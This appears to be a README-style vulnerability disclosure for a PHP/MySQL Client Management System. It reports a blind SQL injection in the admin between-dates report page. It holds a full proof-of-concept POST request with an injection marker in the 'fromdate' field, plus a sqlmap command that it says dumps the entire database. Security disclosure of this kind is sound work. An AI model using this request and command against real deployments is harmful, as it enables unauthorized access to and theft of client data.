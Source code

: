 # Client-Management-System (v1.0)

## Overview

The Client Management System (CMS) is a web-based application developed using PHP and MySQL for the effective management of client information. This repository contains the source code and comprehensive details of the system, along with a report highlighting a security vulnerability.

**Auditor:**  
Haneen Gufran - [LinkedIn](https://www.linkedin.com/in/haneen-gufran-a8b4a6227)

---

## Security Vulnerability Report

### Description

A **Blind SQL Injection** vulnerability has been identified within the Client Management System. The vulnerability is found in the `Between Dates Reports` parameter in the date functionality of the application.

- **Vulnerable Endpoint:**  
  `http://localhost/clientms/admin/bwdates-reports-ds.php`
  
- **Vulnerable Parameter:**  
  `Between Dates Reports`

The input field for the `Between Dates Reports` feature is not properly sanitized, allowing attackers to inject malicious SQL queries. If exploited, this vulnerability could provide unauthorized access to sensitive database information.

### Proof of Concept (PoC)

#### Vulnerable URL
```plaintext
http://localhost/clientms/admin/bwdates-reports-ds.php

#### Example POST Request

```http
POST /clientms/admin/bwdates-reports-details.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCxxk35suiVL6Px2B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/clientms/admin/bwdates-reports-ds.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=p4cek0j306h831oqgio6cb0fid
Connection: keep-alive

------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="fromdate"

*
------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="todate"

0093-08-22
------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryCxxk35suiVL6Px2B--
```

1. Save the above POST Request to req.txt using notepad or any text editor.

2. Use tool such as SQLMAP to exploit the above by applying this command (you can customize yours): sqlmap -r req.txt --dbs --random-agent --level 3 --risk 3

The above command will dump the entire database of the web application.
